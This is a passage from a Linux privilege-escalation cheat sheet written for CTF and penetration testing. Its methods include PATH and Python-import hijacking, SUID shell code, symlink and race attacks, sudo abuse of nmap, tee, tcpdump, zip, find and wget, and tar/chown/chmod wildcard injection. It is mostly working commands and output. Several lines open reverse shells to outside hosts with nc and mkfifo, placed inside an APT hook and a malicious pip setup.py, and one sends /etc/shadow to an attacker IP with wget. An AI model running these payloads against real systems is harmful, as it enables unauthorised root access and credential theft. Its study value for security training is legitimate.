  find / -perm -222 -type d 2>/dev/null     # world-writeable folders
  find / -perm -o+w -type d 2>/dev/null     # world-writeable folders
  find / -perm -o+w -type f 2>/dev/null     # world-writeable files
  find / -type f -perm -o+w -not -type l -not -path "/proc/*" -not -path "/sys/*" 2>/dev/null # world-writeable files

  find / -perm -o+x -type d 2>/dev/null     # world-executable folders
  find / -perm -o+x -type f 2>/dev/null     # world-executable files

  find / \( -perm -o+w -perm -o+x \) -type d 2>/dev/null   # world-writeable & executable folders


Any "problem" files?
^^^^^^^^^^^^^^^^^^^^

Word-writeable, "nobody" files

::

  find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files
  find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files

Find files/ folder owned by the user
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

After compromising the machine with an unprivileged shell, /home would contains the users present on the system. Also, viewable by checking /etc/passwd. Many times, we do want to see if there are any files owned by those users outside their home directory.

::

  find / -user username 2> /dev/null
  find / -group groupname 2> /dev/null


.. Tip :: Find files by wheel/ adm users or the users in the home directory. If the user is member of other groups (such as audio, video, disk), it might be a good idea to check for files owned by particular groups.

Other Linux Privilege Escalation
--------------------------------

Execution of binary from Relative location than Absolute
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
If we figure out that a suid binary is running with relative locations (for example let's say backjob is running "id" and "scp /tmp/special ron@ton.home")(figured out by running strings on the binary). The problem with this is, that it’s trying to 
execute a file/ script/ program on a RELATIVE location (opposed to an ABSOLUTE location like /sbin would be). And we will now exploit this to become root.

Something like this:

::

 system("/usr/bin/env echo and now what?");

so we can create a file in temp:

::

  echo "/bin/sh" >> /tmp/id
  chmod +x /tmp/id

:: 

  www-data@yummy:/tmp$ echo "/bin/sh" >> /tmp/id
  www-data@yummy:/tmp$ export PATH=/tmp:$PATH
  www-data@yummy:/tmp$ which id
  /tmp/id
  www-data@yummy:/tmp$ /opt/backjob
  whoami
  root
  # /usr/bin/id
  uid=0(root) gid=0(root) groups=0(root),33(www-data)

By changing the PATH prior executing the vulnerable suid binary (i.e. the location, where Linux is searching for the relative located file), we force the system to look first into /tmp when searching for “scp” or "id" . So the chain of commands is: 

* /opt/backjob switches user context to root (as it is suid) and tries to run “scp or id”
* Linux searches the filesystem according to its path (here: in /tmp first)
* Our malicious /tmp/scp or /tmp/id gets found and executed as root 
* A new bash opens with root privileges.

If we execute a binary without specifying an absolute paths, it goes in order of your $PATH variable. By default, it's something like:

::

  /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

It is important to see .bash_profile file which contains the $PATH

Environment Variable Abuse
^^^^^^^^^^^^^^^^^^^^^^^^^^^

If the suid binary contains a code like

::

   asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
   printf("about to call system(\"%s\")\n", buffer);
   system(buffer);

We can see that it is accepting environment variable USER which can be user-controlled. In that case just define USER variable to

::

 USER=";/bin/sh;"

When the program is executed, USER variable will contain /bin/sh and will be executed on system call.

::

 echo $USER
 ;/bin/sh;
 
 levelXX@:/home/flagXX$ ./flagXX
 about to call system("/bin/echo ;/bin/sh; is cool")

 sh-4.2$ id
 uid=997(flagXX) gid=1003(levelXX) groups=997(flagXX),1003(levelXX)

World-Writable Folder with a Script executing any file in that folder using crontab
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If there exists any world-writeable folder plus if there exists a cronjob which executes any script in that world-writeable folder such as 

::

 #!/bin/sh

 for i in /home/flagXX/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
 done

then either we can create a script in that folder /home/flagXX/writeable.d which gives us a reverse shell like

::

 echo "/bin/nc.traditional -e /bin/sh 192.168.56.1 22" > hello.sh

or 

we can create a suid file to give us the privileged user permission

::

 #!/bin/sh
 gcc /var/tmp/shell.c -o /var/tmp/flagXX
 chmod 4777 /var/tmp/flagXX

Considering shell.c contains

::

 int main(void) {
 setgid(0); setuid(0);
 execl("/bin/sh","sh",0); }


Symlink Creation
^^^^^^^^^^^^^^^^

Multiple time, we would find that a suid binary belonging to another user is authorized to read a particular file. For example Let's say there's a suid binary called readExampleConf which can read a file named example.conf as a suid user. This binary can be tricked into reading any other file by creating a Symlink or a softlink. For example if we want to read /etc/shadow file which can be read by suid user. we can do

::

 ln -s /etc/shadow /home/xxxxxx/example.conf
 ln -s /home/xxx2/.ssh/id_rsa /home/xxxxxxx/example.conf

Now, when we try to read example.conf file, we would be able to read the file for which we created the symlink

::

 readExampleConf /home/xxxxxxx/example.conf
 <Contents of shadow or id_rsa>

Directory Symlink
^^^^^^^^^^^^^^^^^

Let's see what happens when we create a symlink of a directory

::

 ln -s /etc/ sym_file
 ln -s /etc/ sym_fold/

Here the first one create a direct symlink to the /etc folder and will be shown as 

::

 sym_file -> /etc/

where as in the second one ( ln -s /etc/ sym_fold/ ), we first create a folder sym_fold and then create a symlink

::

 sym_fold:
 total 0
 lrwxrwxrwx 1 bitvijays bitvijays 5 Dec  2 19:31 etc -> /etc/

This might be useful to bypass some filtering, when let's say a cronjob is running but refuses to take backup of anything named /etc . In that case, we can create a symlink inside a folder and take the backup. 

Time of check to time of use
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

In Unix, if a binary program such as below following C code (uses access to check the access of the specific file and to open a specific file), when used in a setuid program, has a TOCTTOU bug:

::


 if (access("file", W_OK) != 0) {
   exit(1);
 }

 fd = open("file", O_WRONLY);
 //read over /etc/shadow
 read(fd, buffer, sizeof(buffer));
 
Here, access is intended to check whether the real user who executed the setuid program would normally be allowed to write the file (i.e., access checks the real userid rather than effective userid). This race condition is vulnerable to an attack:

Attacker

::

 // 
 //
 // After the access check
 symlink("/etc/shadow", "file");
 // Before the open, "file" points to the password database
 //
 //


In this example, an attacker can exploit the race condition between the access and open to trick the setuid victim into overwriting an entry in the system password database. TOCTTOU races can be used for privilege escalation, to get administrative access to a machine.

Let's see how we can exploit this?

In the below code, we are linking the file which we have access (/tmp/hello.txt) and the file which we want to read (and currently don't have access) (/home/flagXX/token). The f switch on ln makes sure we overwrite the existing symbolic link. We run it in the while true loop to create the race condition.

::

  while true; do ln -sf /tmp/hello.txt /tmp/token; ln -sf /home/flagXX/token /tmp/token ; done

We would also run the program in a while loop

::

 while true; do ./flagXX /tmp/token 192.168.56.1 ; done

Learning:

Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.

Writable /etc/passwd or account credentials came from a legacy unix system
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* Passwords are normally stored in /etc/shadow, which is not readable by users. However, historically, they were stored in the world-readable file /etc/passwd along with all account information. 
* For backward compatibility, if a password hash is present in the second column in /etc/passwd, it takes precedence over the one in /etc/shadow. 
* Also, an empty second field in /etc/passwd means that the account has no password, i.e. anybody can log in without a password (used for guest accounts). This is sometimes disabled. 
* If passwordless accounts are disabled, you can put the hash of a password of your choice. we can use the mkpasswd to generate password hashes, for example

 ::
    
   Usage: mkpasswd [OPTIONS]... [PASSWORD [SALT]]
   Crypts the PASSWORD using crypt(3).

      -m, --method=TYPE     select method TYPE
      -5                    like --method=md5
      -S, --salt=SALT       use the specified SALT
      -R, --rounds=NUMBER   use the specified NUMBER of rounds
      -P, --password-fd=NUM read the password from file descriptor NUM
                            instead of /dev/tty
      -s, --stdin           like --password-fd=0
      -h, --help            display this help and exit
      -V, --version         output version information and exit
    
  mkpasswd can generate DES, MD5, SHA-256, SHA-512

  
* It's possible to gain root access even if you can only append to /etc/passwd and not overwrite the contents. That's because it's possible to have multiple entries for the same user, as long as they have different names — users are identified by their ID, not by their name, and the defining feature of the root account is not its name but the fact that it has user ID 0. So you can create an alternate root account by appending a line that declares an account with another name, a password of your choice and user ID 0

Elevating privilege from a suid binary
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If we have ability to create a suid binary, we can use either 

Suid.c

::

  int main(void) {
  setgid(0); setuid(0);
  execl(“/bin/sh”,”sh”,0); }

or

::

 int main(void) {
 setgid(0); setuid(0);
 system("/bin/bash -p"); }

However, if we have a unprivileged user, it is always better to check whether /bin/sh is the original binary or a symlink to /bin/bash or /bin/dash. If it's a symlink to bash, it won't provide us suid privileges, bash automatically drops its privileges when it's being run as suid (another security mechanism to prevent executing scripts as suid). So, it might be good idea to copy dash or sh to the remote system, suid it and use it.

More details can be found at `Common Pitfalls When Writing Exploits <http://www.mathyvanhoef.com/2012/11/common-pitfalls-when-writing-exploits.html>`_

Executing Python script with sudo
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If there exists a python script which has a import statement and a user has a permission to execute it using sudo.

::

 <display_script.py> 

 #!/usr/bin/python3
 import ftplib or import example
 <Python code utilizing ftplib or example calling some function>
 print (example.display())

and is executed using

::

 sudo python display_script.py

We can use this to privilege escalate to the higher privileges. As python would imports modules in the current directory first, then from the modules dir (PYTHONPATH), we could make a malicious python script (of the same name of import module such as ftplib or example)
and have it imported by the program. The malicious script may have a function similar to used in example.py executing our command. e.g.

::

 <example.py>
 #!/usr/bin/python3
 import os

 def display():
    os.system("whoami")
    exit()

The result would be "root". This is mainly because `sys.path <https://docs.python.org/2/library/sys.html#sys.path>`_ is populated using the current working directory, followed by directories listed in your PYTHONPATH environment variable, followed by installation-dependent default paths, which are controlled by the site module.


**Example**

If we run our script with sudo (sudo myscript.py) then the environment variable $USER will be root and the environment variable $SUDO_USER will be the name of the user who executed the command sudo myscript.py. Consider the following scenario:

A linux user bob is logged into the system and possesses sudo privileges. He writes the following python script named myscript.py:

::

    #!/usr/bin/python
    import os
    print os.getenv("USER")
    print os.getenv("SUDO_USER")

He then makes the script executable with chmod +x myscript.py and then executes his script with sudo privileges with the command:

::

 sudo ./myscript.py

The output of that program will be (using python 2.x.x):

::

    root
    bob

If bob runs the program without sudo privileges with

::

 ./myscript.py

he will get the following output:

::

    bob
    None


MySQL Privileged Escalation
---------------------------

If mysql (version 4.x, 5.x) process is running as root and we do have the mysql root password and we are an unprivileged user, we can utilize `User-Defined Function (UDF) Dynamic Library Exploit <http://www.0xdeadbeef.info/exploits/raptor_udf.c>`_ . Refer `Gaining a root shell using mysql user defined functions and setuid binaries <https://infamoussyn.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/>`_  

More Information
^^^^^^^^^^^^^^^^

* The MySQL service should really not run as root. The service and all mysql directories should be run and accessible from another account - mysql as an example.

* When MySQL is initialized, it creates a master account (root by default) that has all privileges to all databases on MySQL. This root account differs from the system root account, although it might still have the same password due to default install steps offered by MySQL.

* Commands can be executed inside MySQL, however, commands are executed as the current logged in user.

::

  mysql> \! sh

Cron.d
------

Check cron.d and see if any script is executed as root at any time and is world writeable. If so, you can use to setuid a binary with /bin/bash and use it to get root.

pspy
^^^^

`pspy - unprivileged linux process snooping <https://github.com/DominicBreuker/pspy>`_  is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. 
Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

The tool gathers it's info from procfs scans. Inotify watchers placed on selected parts of the file system trigger these scans to catch short-lived processes. It is a great tool to search for cron jobs running.

Unattended APT - Upgrade
------------------------

If we have a ability to upload files to the host at any location (For. example misconfigured TFTP server) and APT-Update/ Upgrade is running at a set interval (Basically unattended-upgrade or via-a-cronjob), then we can use APT-Conf to run commands

DPKG
^^^^

Debconf configuration is initiated with following line. The command in brackets could be any arbitrary command to be executed in shell.

::

 Dpkg::Pre-Install-Pkgs {"/usr/sbin/dpkg-preconfigure --apt || true";};
 
There are also options

::

 Dpkg::Pre-Invoke {"command";};
 Dpkg::Post-Invoke {"command";};

They execute commands before/ after apt calls dpkg. Post-Invoke which is invoked after every execution of dpkg (by an apt tool, not manually);

APT
^^^

* APT::Update::Pre-Invoke {"your-command-here"};

* APT::Update::Post-Invoke-Success, which is invoked after successful updates (i.e. package information updates, not upgrades);

* APT::Update::Post-Invoke, which is invoked after updates, successful or otherwise (after the previous hook in the former case).

To invoke the above, create a file in  /etc/apt/apt.conf.d/ folder specifying the NN<Name> and keep the code in that

For example:

::

 APT::Update::Post-Invoke{"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f";};

When the apt-update would be executed, it would be executed as root and we would get a shell as a root.

SUDO -l Permissions
-------------------

Let's see which executables have permission to run as sudo, We have collated the different methods to get a shell if the below applications are suid: nmap, tee, tcpdump, find,  zip and package installers (pip, npm).

nmap suid
^^^^^^^^^

:: 

  nmap --script <(echo 'require "os".execute "/bin/sh"')

or

:: 

  nmap --interactive

tee suid
^^^^^^^^

If tee is suid: tee is used to read input and then write it to output and files. That means we can use tee to read our own commands and add them to any_script.sh, which can then be run as root by a user. If some script is run as root, you may also run. For example, let's say tidy.sh is executed as root on the server, we can write the below code in temp.sh

:: 

  temp.sh
  echo "example_user ALL=(ALL) ALL" > /etc/sudoers 

or 

::

  chmod +w /etc/sudoers to add write properties to sudoers file to do the above

and then

:: 

  cat temp.sh | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh

which will add contents of temp.sh to tidyup.sh. (Assuming tidyup.sh is running as root by crontab)

tcpdump
^^^^^^^

The “-z postrotate-command” option (introduced in tcpdump version 4.0.0).

Create a temp.sh ( which contains the commands to executed as root )

:: 

  id
  /bin/nc 192.168.110.1 4444 -e /bin/bash

Execute the command

:: 

  sudo tcpdump -i eth0 -w /dev/null -W 1 -G 1 -z ./temp.sh -Z root

where
 
:: 

  -C file_size : Before  writing a raw packet to a savefile, check whether the file is currently larger than file_size and, if so, close the current savefile and open a new one.  Savefiles after the first savefile will have the name specified with the -w flag, with a number after it, starting at 1 and continuing upward.  The units of file_size are millions of bytes (1,000,000 bytes, not 1,048,576 bytes).

  -W Used  in conjunction with the -C option, this will limit the number of files created to the specified number, and begin overwriting files from the beginning, thus creating a 'rotating' buffer.  In addition, it will name the files with enough leading 0s to support the maximum number of files, allowing them to sort correctly. Used in conjunction with the -G option, this will limit the number of rotated dump files that get created, exiting with status 0 when reaching the limit. If used with -C as well, the behavior will result in cyclical files per timeslice.

  -z postrotate-command Used in conjunction with the -C or -G options, this will make tcpdump run " postrotate-command file " where file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip will compress each savefile using gzip or bzip2.

  Note that tcpdump will run the command in parallel to the capture, using the lowest priority so that this doesn't disturb the capture process.

  And in case you would like to use a command that itself takes flags or different arguments, you can always write a shell script that will take the savefile name as the only argument, make the flags &  arguments arrangements and execute the command that you want.

   -Z user 
   --relinquish-privileges=user If tcpdump is running as root, after opening the capture device or input savefile, but before opening any savefiles for output, change the user ID to user and the group ID to the primary group of user.

   This behavior can also be enabled by default at compile time.

zip
^^^

::

  touch /tmp/exploit
  sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-command="sh -c /bin/bash"

find
^^^^

If find is suid, we can use

::

 touch foo
 find foo -exec whoami \;

Here, the foo file (a blank file) is created using the touch command as the -exec parameter of the find command will execute the given command for every file that it finds, so by using “find foo” it is ensured they only execute once. The above command will be executed as root.

HollyGrace has mentioned this in `Linux PrivEsc: Abusing SUID <https://www.gracefulsecurity.com/linux-privesc-abusing-suid/>`_ More can be learn `How-I-got-root-with-sudo <https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/>`_.

wget
^^^^

If the user has permission to run wget as sudo, we can read files (if the user whom we are sudo-ing have the permisson to read) by using --post-file parameter

::

  post_file = file   -- Use POST as the method for all HTTP requests and send the contents of file in the request body. The same as ‘--post-file=file’.

Example:

::

 sudo -u root wget --post-file=/etc/shadow http://AttackerIP:Port

On the attacker side, there can be a nc listener. The above would send the contents of /etc/shadow to the listener in the post request.

Package Installation
^^^^^^^^^^^^^^^^^^^^

**pip**

If the user have been provided permission to install packages as a sudo for example

::

 User username may run the following commands on hostname:
    (root) /usr/bin/pip install *

We can exploit this by creating a custom pip package which would provide us a shell.

First, create a folder (Let's name it helloworld), and create two files setup.py and helloworld.py

::

 username@hostname:/tmp/helloworld$ ls
 helloworld.py setup.py

Let's see, what setup.py contains

::

 cat setup.py

 from setuptools import setup
 import os
 print os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.14.26 4444 >/tmp/f")

 setup(
     name='helloworld-script',    # This is the name of your PyPI-package.
     version='0.1',               # Update the version number for new releases
     scripts=['helloworld']       # The name of your scipt, and also the command you'll be using for calling it
 )

and helloworld.py

::

 cat helloworld.py
 #!/usr/bin/env python
 print "Hello World"

The above can be a part of a sample package of python pip. For more details refer `A sample project that exists for PyPUG's "Tutorial on Packaging and Distributing Projects" <https://github.com/pypa/sampleproject>`_ , `How To Package Your Python Code <http://python-packaging.readthedocs.io/en/latest/index.html>`_ ,
`A simple Hello World setuptools package and installing it with pip <https://stackoverflow.com/questions/22051360/a-simple-hello-world-setuptools-package-and-installing-it-with-pip>`_
and `Packaging and distributing projects <https://packaging.python.org/tutorials/distributing-packages/>`_ 

The above package can be installed by using

::

 sudo -u root /usr/bin/pip install -e /tmp/helloworld

 Obtaining file:///tmp/helloworld

The above would execute setup.py and provide us the shell.

Refer `Installing Packages <https://packaging.python.org/tutorials/installing-packages/>`_ for different ways to install a pip package

Let's see the installed application

::

 pip list
 Flask-CouchDB (0.2.1)
 helloworld-script (0.1, /tmp/helloworld)
 Jinja2 (2.10)

**npm**

npm allows packages to take actions that could result in a malicious npm package author to create a worm that spreads across the majority of the npm ecosystem. Refer `npm fails to restrict the actions of malicious npm packages <https://www.kb.cert.org/vuls/id/319816>`_ 
, `npm install could be dangerous: Rimrafall <https://github.com/joaojeronimo/rimrafall>`_ and `Package install scripts vulnerability <https://blog.npmjs.org/post/141702881055/package-install-scripts-vulnerability>`_ 

Unix Wildcards
--------------

The below text is directly from the `DefenseCode Unix WildCards Gone Wild <https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt>`_.

Chown file reference trick (file owner hijacking)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

First really interesting target I've stumbled across is 'chown'. Let's say that we have some publicly writeable directory with bunch of PHP files in there, and root user wants to change owner of all PHP files to 'nobody'. Pay attention to the file owners in the following files list.

:: 

  [root@defensecode public]# ls -al
  total 52
  drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
  drwx------. 22 user user 4096 Oct 28 17:34 ..
  -rw-rw-r--.  1 user user   66 Oct 28 17:36 admin.php
  -rw-rw-r--.  1 user user   34 Oct 28 17:35 ado.php
  -rw-rw-r--.  1 user user   80 Oct 28 17:44 config.php
  -rw-rw-r--.  1 user user  187 Oct 28 17:44 db.php
  -rw-rw-r--.  1 user user  201 Oct 28 17:35 download.php
  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 user user   43 Oct 28 17:35 file1.php
  -rw-rw-r--.  1 user user   56 Oct 28 17:47 footer.php
  -rw-rw-r--.  1 user user  357 Oct 28 17:36 global.php
  -rw-rw-r--.  1 user user  225 Oct 28 17:35 header.php
  -rw-rw-r--.  1 user user  117 Oct 28 17:35 inc.php
  -rw-rw-r--.  1 user user  111 Oct 28 17:38 index.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
  -rw-rw----.  1 user user   66 Oct 28 17:35 password.inc.php
  -rw-rw-r--.  1 user user   94 Oct 28 17:35 script.php

Files in this public directory are mostly owned by the user named 'user', and root user will now change that to 'nobody'.

:: 

   [root@defensecode public]# chown -R nobody:nobody \*.php

Let's see who owns files now...

:: 

  root@defensecode public]# ls -al
  total 52
  drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
  drwx------. 22 user user 4096 Oct 28 17:34 ..
  -rw-rw-r--.  1 leon leon   66 Oct 28 17:36 admin.php
  -rw-rw-r--.  1 leon leon   34 Oct 28 17:35 ado.php
  -rw-rw-r--.  1 leon leon   80 Oct 28 17:44 config.php
  -rw-rw-r--.  1 leon leon  187 Oct 28 17:44 db.php
  -rw-rw-r--.  1 leon leon  201 Oct 28 17:35 download.php
  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 leon leon   43 Oct 28 17:35 file1.php
  -rw-rw-r--.  1 leon leon   56 Oct 28 17:47 footer.php
  -rw-rw-r--.  1 leon leon  357 Oct 28 17:36 global.php
  -rw-rw-r--.  1 leon leon  225 Oct 28 17:35 header.php
  -rw-rw-r--.  1 leon leon  117 Oct 28 17:35 inc.php
  -rw-rw-r--.  1 leon leon  111 Oct 28 17:38 index.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
  -rw-rw----.  1 leon leon   66 Oct 28 17:35 password.inc.php
  -rw-rw-r--.  1 leon leon   94 Oct 28 17:35 script.php

Something is not right. What happened? Somebody got drunk here. Superuser tried to change files owner to the user:group 'nobody', but somehow, all files are owned by the user 'leon' now. If we take closer look, this directory previously contained just the following two files created and owned by the user 'leon'.

:: 

  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php

Thing is that wildcard character used in 'chown' command line took arbitrary '--reference=.drf.php' file and passed it to the chown command at the command line as an option.

Let's check chown manual page (man chown):

:: 

   --reference=RFILE     use RFILE's owner and group rather than specifying OWNER:GROUP values

So in this case, '--reference' option to 'chown' will override 'nobody:nobody' specified as the root, and new owner of files in this directory will be exactly same as the owner of '.drf.php', which is in this case user 'leon'. Just for the record, '.drf' is short for Dummy Reference File. :)

To conclude, reference option can be abused to change ownership of files to some arbitrary user. If we set some other file as argument	to the --reference option, file that's owned by some other user, not 'leon', in that case he would become owner of all files in this directory. With this simple chown parameter pollution, we can trick root into changing ownership of files to arbitrary users, and practically "hijack" files that are of interest to us.

Even more, if user 'leon' previously created a symbolic link in that directory that points to let's say /etc/shadow, ownership of /etc/shadow would also be changed to the user 'leon'.


Chmod file reference trick
^^^^^^^^^^^^^^^^^^^^^^^^^^

Another interesting attack vector similar to previously described 'chown' attack is 'chmod'. Chmod also has --reference option that can be abused to specify arbitrary permissions on files selected with asterisk wildcard. Chmod manual page (man chmod):

:: 

  --reference=RFILE    :   use RFILE's mode instead of MODE values

Example is presented below.

:: 

    [root@defensecode public]# ls -al
    total 68
    drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
    -rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
    -rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
    -rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
    -rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
    -rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
    -rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
    -rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php

Superuser will now try to set mode 000 on all files.

:: 

  [root@defensecode public]# chmod 000 *

Let's check permissions on files...

:: 

    [root@defensecode public]# ls -al
    total 68
    drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxrwxrwx.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxrwxrwx.  1 user user    34 Oct 28 17:47 ado.php
    -rwxrwxrwx.  1 user user   187 Oct 28 17:44 db.php
    -rwxrwxrwx.  1 user user   201 Oct 28 17:43 download.php
    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rwxrwxrwx.  1 user user    43 Oct 28 17:35 file1.php
    -rwxrwxrwx.  1 user user    56 Oct 28 17:47 footer.php
    -rwxrwxrwx.  1 user user   357 Oct 28 17:36 global.php
    -rwxrwxrwx.  1 user user   225 Oct 28 17:37 header.php
    -rwxrwxrwx.  1 user user   117 Oct 28 17:36 inc.php
    -rwxrwxrwx.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
    -rwxrwxrwx.  1 user user    94 Oct 28 17:38 script.php

What happened? Instead of 000, all files are now set to mode 777 because of the '--reference' option supplied through file name..Once again,file .drf.php owned by user 'leon' with mode 777 was used as reference file and since --reference option is supplied, all files will be set to mode 777. Beside just --reference option, attacker can also create another file with '-R' filename, to change file permissions on files in	all subdirectories recursively.
   

Tar arbitrary command execution
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  
Previous example is nice example of file ownership hijacking. Now, let's go to even more interesting stuff like arbitrary command execution. 		Tar is very common unix program for creating and extracting archives. Common usage for lets say creating archives is:

:: 

    [root@defensecode public]# tar cvvf archive.tar *

So, what's the problem with 'tar'? Thing is that tar has many options,and among them, there some pretty interesting options from arbitrary parameter injection point of view. Let's check tar manual page (man tar):

:: 

    --checkpoint[=NUMBER]      : display progress messages every NUMBERth record (default 10)
    --checkpoint-action=ACTION : execute ACTION on each checkpoint

There is '--checkpoint-action' option, that will specify program which will be executed when checkpoint is reached. Basically, that allows us arbitrary command execution.

Check the following directory:

:: 

    [root@defensecode public]# ls -al
    total 72
    drwxrwxrwx.  2 user user  4096 Oct 28 19:34 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
    -rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
    -rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
    -rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
    -rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
    -rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
    -rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
    -rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
    -rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
    -rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

Now, for example, root user wants to create archive of all files in current directory.

:: 

    [root@defensecode public]# tar cf archive.tar *
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Boom! What happened? /usr/bin/id command gets executed! We've just achieved arbitrary command execution under root privileges. Once again, there are few files created by user 'leon'.

:: 

    -rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
    -rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
    -rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

  Options '--checkpoint=1' and '--checkpoint-action=exec=sh shell.sh' are passed to the 'tar' program as command line options. Basically, they command tar to execute shell.sh shell script upon the execution.

:: 

    [root@defensecode public]# cat shell.sh
    /usr/bin/id

So, with this tar argument pollution, we can basically execute arbitrary commands with privileges of the user that runs tar. As demonstrated on the 'root' account above.
   

Rsync arbitrary command execution
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Rsync is "a fast, versatile, remote (and local) file-copying tool", that is very common on Unix systems. If we check 'rsync' manual page, we can again find options that can be abused for arbitrary command execution.

Rsync manual: "You use rsync in the same way you use rcp. You must specify a source and a destination, one of which may be remote."

Interesting rsync option from manual:

:: 

  -e, --rsh=COMMAND       specify the remote shell to use
  --rsync-path=PROGRAM    specify the rsync to run on remote machine			

Let's abuse one example directly from the 'rsync' manual page. Following example will copy all C files in local directory to a remote host 'foo' in '/src' directory.

:: 

  # rsync -t *.c foo:src/


Directory content:

:: 

    [root@defensecode public]# ls -al
    total 72
    drwxrwxrwx.  2 user user  4096 Mar 28 04:47 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
    -rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
    -rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
    -rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
    -rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
